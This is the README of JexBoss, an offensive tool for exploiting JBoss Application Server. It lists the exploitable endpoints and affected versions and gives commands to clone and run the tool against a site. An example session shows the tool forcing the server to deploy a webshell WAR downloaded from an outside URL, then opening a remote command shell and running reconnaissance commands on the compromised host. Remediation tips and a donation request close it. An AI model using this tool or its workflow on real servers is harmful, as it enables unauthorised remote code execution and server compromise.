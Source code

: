 JexBoss - Jboss verify and EXploitation Tool
=======

JexBoss is a tool for testing and exploiting vulnerabilities in JBoss Application Server.

Requirements
----
* Python >= 2.7.x
* [urllib3](https://pypi.python.org/pypi/urllib3)

Installation
----
To install the latest version of JexBoss, please use the following commands:

	git clone https://github.com/joaomatosf/jexboss.git
	cd jexboss
	python jexboss.py

	OR:

	Download the latest version at: https://github.com/joaomatosf/jexboss/archive/master.zip
	unzip master.zip
	cd jexboss-master
	python jexboss.py

Features
----
The tool and exploits were developed and tested for versions 3, 4, 5 and 6 of the JBoss Application Server.

The exploitation vectors are:

* /jmx-console
	- tested and working in JBoss versions 4, 5 and 6
* /web-console/Invoker
	- tested and working in JBoss versions 4
* /invoker/JMXInvokerServlet
	- tested and working in JBoss versions 4 and 5
* /admin-console [ NEW ]
	- tested and working in JBoss versions 5 and 6

Usage example
----
* Check the file "demo.png"

```
* Via git:

$ git clone https://github.com/joaomatosf/jexboss.git
$ cd jexboss
$ python jexboss.py https://site-teste.com

* Or via download:

$ wget https://github.com/joaomatosf/jexboss/archive/master.zip
$ unzip master.zip
$ cd jexboss-master
$ python jexboss.py https://site-teste.com


 * --- JexBoss: Jboss verify and EXploitation Tool  --- *
 |                                                      |
 | @author:  João Filho Matos Figueiredo                |
 | @contact: joaomatosf@gmail.com                       |
 |                                                      |
 | @update: https://github.com/joaomatosf/jexboss       |
 #______________________________________________________#


 ** Checking Host: https://site-teste.com **

 * Checking admin-console: 	       [ EXPOSED ]
 * Checking web-console: 	       [ OK ]
 * Checking jmx-console: 	       [ VULNERABLE ]
 * Checking JMXInvokerServlet: 	   [ VULNERABLE ]


 * Do you want to try to run an automated exploitation via "jmx-console" ?
   This operation will provide a simple command shell to execute commands on the server..
   Continue only if you have permission!
   yes/NO ? yes

 * Sending exploit code to https://site-teste.com. Wait...


 * Info: This exploit will force the server to deploy the webshell
   available on: http://www.joaomatosf.com/rnp/jbossass.war
 * Successfully deployed code! Starting command shell, wait...

 * - - - - - - - - - - - - - - - - - - - - LOL - - - - - - - - - - - - - - - - - - - - *

 * https://site-teste.com:

 Linux seglinux 3.18.4-1.el6.elrepo.x86_64 #1 SMP Wed Jan 28 13:28:52 EST 2015 x86_64 x86_64 x86_64 GNU/Linux

 CentOS release 6.5 (Final)

 uid=509(jboss) gid=509(jboss) grupos=509(jboss) context=system_u:system_r:initrc_t:s0

[Type commands or "exit" to finish]
Shell> pwd
/usr/jboss-6.1.0.Final/bin

[Type commands or "exit" to finish]
Shell> hostname
fwgw

[Type commands or "exit" to finish]
Shell> ls -all /home
total 16
drwxr-xr-x.  4 root  root  4096 Jan 26  2015 .
dr-xr-xr-x. 23 root  root  4096 Mar 31 04:51 ..
-rwxrwxrwx.  1 root  root     0 Jan 26  2015 file1
-rw-r-----.  1 root  root     0 Jan 26  2015 file2
-rw-rw-r--.  1 root  root     0 Jan 26  2015 file3
drwx------.  2 joao  joao  4096 Jan 26  2015 joao
drwx------.  2 maria maria 4096 Jan 26  2015 maria

[Type commands or "exit" to finish]
Shell>exit

Results: potentially compromised server!
 * - - - - - - -  - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -*
 Recommendations:
 - Remove web consoles and services that are not used, eg:
    $ rm web-console.war
    $ rm http-invoker.sar
    $ rm jmx-console.war
    $ rm jmx-invoker-adaptor-server.sar
    $ rm admin-console.war
 - Use a reverse proxy (eg. nginx, apache, F5)
 - Limit access to the server only via reverse proxy (eg. DROP INPUT POLICY)
 - Search vestiges of exploitation within the directories "deploy" and "management".

 References:
   [1] - https://developer.jboss.org/wiki/SecureTheJmxConsole
   [2] - https://issues.jboss.org/secure/attachment/12313982/jboss-securejmx.pdf

 - If possible, discard this server!
 * - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -*

 * Info: review, suggestions, updates, etc:
   https://github.com/joaomatosf/jexboss

 * DONATE: Please consider making a donation to help improve this tool,
           including research to new versions of JBoss and zero days.

 * Paypal:  joaomatosf@gmail.com
 * Bitcoin Address:  14x4niEpfp7CegBYr3tTzTn4h6DAnDCD9C
 * URI:  bitcoin:14x4niEpfp7CegBYr3tTzTn4h6DAnDCD9C?label=jexboss
```

Questions, problems, suggestions and etc:
----

* joaomatosf@gmail.com


